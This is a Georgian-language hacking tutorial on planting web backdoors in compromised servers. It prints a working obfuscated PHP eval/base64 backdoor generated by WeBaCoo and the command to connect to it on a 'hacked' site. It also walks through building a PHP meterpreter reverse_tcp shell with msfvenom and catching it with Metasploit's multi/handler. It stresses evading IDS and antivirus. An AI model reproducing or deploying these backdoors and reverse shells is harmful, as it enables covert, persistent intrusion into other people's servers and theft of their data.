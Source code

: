 ვებ ბექდორი მოსახერხებელია გატეხილ ვებ სერვერთან ხელახლა "ჩუმად" კავშირისთვის.
ეს ბექდორები შესაძლოა აღმოჩენილი იყვენ IDS-ის ან ანტივირუსის მიერ.

# WeBaCoo

WeBaCoo (Web Backdoor Cookie) არის ვებ ბექდორის სკრიპტი რომელიც საშუალებას იძლევა რომ ვებ სერვერთან გქონდეს მიწვდომა ისე რომ ინტრეფეისი ტერმინალს გავდეს და ბძანებების გაშვება შეგეძლოს.

WeBaCoo-ს გააჩნია მოქმედების 2 რეჟიმი:
  * Generation (პარამეტრი -g): ქმნის ბექდორის კოდს PHP მარგი ტვირთებით (payload)
  * Terminal (პარამეტრი -t): უკავშირდება გატეხილ სერვერს

WeBaCoo-ი საინტერესოა იმით რომ კლიენტის და ვებ სერვერის შორის კავშირი ენკოდირებულია HTTP ქუქიში რაც მას ძნელად აღმოსაჩენს ქმნის ანტივირუსისგან, IDS-გან, IPS-გან, ქსელის ფაირვოლისგან და აპლიკაციური ფაირვოლისგან.

ეს არის 3 მნიშვნელოვანი პარამეტრი HTTP ქუქიში:
  * cm: შელის ბრძანება ენკოდირებულიაBase64-ში
  * cn: ქუქიის სახელწოდება რომელსაც სერვერის გააგზავნის მონაცემების გაგზვანის თანავე
  * cp: დელიმიტერი, მონაცემების გაგზავნის შეფუთისთვის

obfuscated PHP შექმენისთვის დეფოლტი არჩევნებით: 

```
hacker@kali /tmp> webacoo -g -o test.php

	WeBaCoo 0.2.3 - Web Backdoor Cookie Script-Kit
	Copyright (C) 2011-2012 Anestis Bechtsoudis
	{ @anestisb | anestis@bechtsoudis.com | http(s)://bechtsoudis.com }

[+] Backdoor file "test.php" created.
```

ვნახოთ რას გავს შექმნილი ფაილი:

```
hacker@kali /tmp> cat test.php 
<?php $b=strrev("edoced_4"."6esab");eval($b(str_replace(" ","","a W Y o a X N z Z X Q o J F 9 D T 0 9 L S U V b J 2 N t J 1 0 p K X t v Y l 9 z d G F y d C g p O 3 N 5 c 3 R l b S h i Y X N l N j R f Z G V j b 2 R l K C R f Q 0 9 P S 0 l F W y d j b S d d K S 4 n I D I + J j E n K T t z Z X R j b 2 9 r a W U o J F 9 D T 0 9 L S U V b J 2 N u J 1 0 s J F 9 D T 0 9 L S U V b J 2 N w J 1 0 u Y m F z Z T Y 0 X 2 V u Y 2 9 k Z S h v Y l 9 n Z X R f Y 2 9 u d G V u d H M o K S k u J F 9 D T 0 9 L S U V b J 2 N w J 1 0 p O 2 9 i X 2 V u Z F 9 j b G V h b i g p O 3 0 = "))); ?>
```

შემდეგ ატვირთე ეს ფაილი გატეხილ სერვერზე (http://www.hackedsite.com).
და დაუკავშირდი ამ ბექდორს:

```
# webacoo –t –u http://www.hackedsite.com/test.php
```

ბექდორის ტერმინალი რომ დატოვო დაბეჭდე exit.

# PHP meterpreter

Metasploit-ს აქვს PHP meterpreter მარგი ტვირთვი.
ამ მოდულით შეგიძლია რომ შექმნა PHP ვებ შელი რომელსაც ექნება meterpreter-ის შესაძლებლობები.
შემდეგ ამ ვებ შელის ატვირთვა შეგიძლია ვებ სერვზე არსებული სისუსტეების გამოყენებით როგორიცაა ბრძანების ინექცია (command injection) ან ფაილის ინექცია.

  * ჰაკერის კომპიუტერის IP მისამართია 172.27.54.148
  * სერვერის IP მისამართია 172.27.54.141

```
hacker@kali /tmp> msfvenom -p php/meterpreter/reverse_tcp LHOST=172.27.54.148 -f raw > php-meter.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1114 bytes
```

პარამეტრბის ახსმა განმარტება:
  * -p (payload): მარგი ტვირთი
  * -f (format): ფორმატი
  * LHOST: თავდამსმელის კომპიუტერის IP მისამართი

ყურადღება:
სანამ შექმნილ ბექდორს ატვირთავ php-ს კომენარის ნიშნები უნდა მოხსნა:

შექმნილი ბექდორის საწყისი ცვლილებისამდე:

```
hacker@kali /tmp> cat php-meter.php
/*<?php /**/ error_reporting(0); ...
```

შექმნილი ბექდორის საწყისი ცვლილების შემდეგ: 

```
hacker@kali /tmp> cat php-meter.php
<?php error_reporting(0); ...
```

შემდეგ შენს კომპიუტერში გაუშვი მეტასპლოიტის კონსოლი (msfconsole) და გამოიყენე multi/handler ექსპლოიტი.
შემდეგ იხმარე php/meterpreter/reverse_tcp მარგი ტვირთი.
LHOST-ს მიუთითე შენი IP მისამართი. და მიეცი ბრძანება exploit.

```
hacker@kali /tmp> msfconsole
...
msf > use exploit/multi/handler 
msf exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST 172.27.54.148
LHOST => 172.27.54.148
msf exploit(multi/handler) > exploit
```

როცა ვებ შელს ატვირთავ გატეხილ სერვერზე, შეგეძლება რომ მასთან მიწვდომა გქონდეს შემდგომი ტიპის მისამართზე: https://172.27.54.141/php-meter.php
